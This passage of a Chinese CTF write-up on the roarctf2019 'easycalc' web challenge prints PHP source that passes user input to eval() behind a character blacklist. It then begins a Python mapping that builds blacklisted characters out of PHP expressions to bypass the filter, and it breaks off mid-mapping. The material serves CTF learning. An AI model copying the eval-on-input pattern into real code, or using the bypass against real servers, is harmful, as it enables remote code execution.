 categories:
- 比赛
tags:
- wp
- ctf
title: roarctf2019
---
# roarctf2019



## web

### easycalc



#### 源码

```php

<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```





#### 解法一 肝就完事

强行绕过限制

关键:`((10000000000000).(0)){3}`=>E

python脚本

```python
arr={
    "0":'''((0).(0)){0}''',
    "1":'''((1).(0)){0}''',
    "2":'''((2).(0)){0}''',
    "3":'''((3).(0)){0}''',
    "4":'''((4).(0)){0}''',
    "5":'''((5).(0)){0}''',
    "6":'''((6).(0)){0}''',
    "7":'''((7).(0)){0}''',
    "8":'''((8).(0)){0}''',
    "9":'''((9).(0)){0}''',
    "-": "((-1).(0)){0}",
    "." :"((1.1).(0)){1}",
    "E": "((10000000000000000000).(1)){3}",
    "p":"((((10000000000000000000).(1)){3})&(~(((1).(7)){1})|(((1).(0)){1}))|(((1).(0)){1}))",
    "$":"((((-1).(0)){0})&(((4).(0)){0}))",
```